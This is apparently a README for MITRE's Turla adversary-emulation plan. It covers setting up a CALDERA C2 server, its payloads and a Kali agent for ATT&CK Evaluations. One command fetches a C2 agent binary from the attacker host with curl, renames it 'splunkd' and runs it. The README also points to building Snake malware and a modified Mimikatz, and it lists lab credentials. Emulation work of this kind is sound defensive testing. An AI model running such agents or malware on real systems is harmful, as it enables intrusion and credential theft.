 # OVERVIEW

The Turla port contains two adversary profiles for each of the executed scenarios in The MITRE Corporation's ATT&CK® Evaluations: Enterprise - Round 5. **Follow the setup instructions below** and then navigate to the scenario-specific setup guides for the profile you would like to execute:

- [Carbon Scenario](Carbon_Scenario.md)
- [Snake Scenario](Snake_Scenario.md)

Information about each scenario can be found [here](../../Emulation_Plan/README.md).

# DEPENDENCIES

## CALDERA C2 Server
- Linux/Mac OS, 64-bit
- git commandline installed
- python3.8+ with pip3
- golang 1.17+
    - required for dynamic agent compilation
- Recommended hardware is 8GB+ RAM and 2+ CPUs

## Attacker Machine Dependencies
- Linux OS, 64-bit
    - Kali recommended
    - Can be the same machine as the CALDERA C2 server
- Command-line tools
    - xfreerdp
    - xdotools
    - curl
    - urllib3
    - ncat (by Nmap)

# SETUP

## Download and Install CALDERA
Run the following on a Linux/Mac machine of your choice. This machine will act as your C2 server, or the "attacker" host. For the purposes of this walkthrough, the C2 server will have an IP address of `176.59.15.33`.
```
git clone --depth 1 https://github.com/mitre/caldera.git --recursive
cd caldera
git checkout master && git pull
cp conf/default.yml conf/local.yml
cd plugins/emu
git checkout master && git pull
```

Add the `emu` plugin to your `conf/local.yml` configuration file. Feel free to enable or disable other plugins
by adding/removing them from the configuration file. You can also configure your user accounts and credentials if needed.
```
vi conf/local.yml
```

Download pip dependencies.
```
pip3 install --upgrade setuptools
pip3 install --upgrade pip
pip3 install -r requirements.txt
```

Download required payloads for `emu` plugin.
```
# from caldera/plugins/emu directory

git checkout master && git pull
./download_payloads.sh
```

Run your C2 server from the caldera directory. This will unzip encrypted executables throughout the `adversary-emulation-library` and ingest its emulation plans.
```
# from caldera directory

python3 server.py --insecure --log DEBUG
```


## Compile Snake & Mimikatz Binaries

### Snake

:exclamation: Snake has not been included in this binaries.zip. Please visit the following
resources for building Snake and its components:
- [Snake Installer Build](../../Resources/Snake/SnakeInstaller/README.md#build)
- [Snake Build Script](../../Resources/Snake/buildall.ps1)

### Mimikatz

:exclamation: Mimikatz must be modified and compiled according to these [instructions](https://github.com/attackevals/turla/tree/public-release/Resources/Mimikatz#adjustments-made-to-mimikatz-pth-function).

## Launch the Kali Agent

RDP to `176.59.15.33`, the Kali attacker host, as user `dev` with password `DevPass12345`. Launch the Kali agent by running the following command. You may need to modify the command so the server value matches your attacker host's IP address.

:exclamation: Keep this RDP open as this will be leveraged by xfreerdp in the executed Caldera operation. Once the operation has been started, avoid interacting with the RDP to Kali. Clicking or switching windows within the Kali RDP will interfere with the user activity that is automated through Caldera.

```
cd /home/dev/caldera/plugins/emu/data/adversary-emulation-plans/turla/Resources/control_server;
server="http://176.59.15.33:8888";
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" $server/file/download > splunkd;
chmod +x splunkd;
./splunkd -server $server -group kali -v
```

Log into CALDERA's web GUI by accessing your C2 server address in a web browser (Chrome recommended), and using your credentials (default username is `red`, default password is `admin`).

On the left sidebar, under "Campaigns", click "agents" and confirm that you see the Kali agent beaconing in.

For best results, make sure you don't have other agents currently beaconing in.

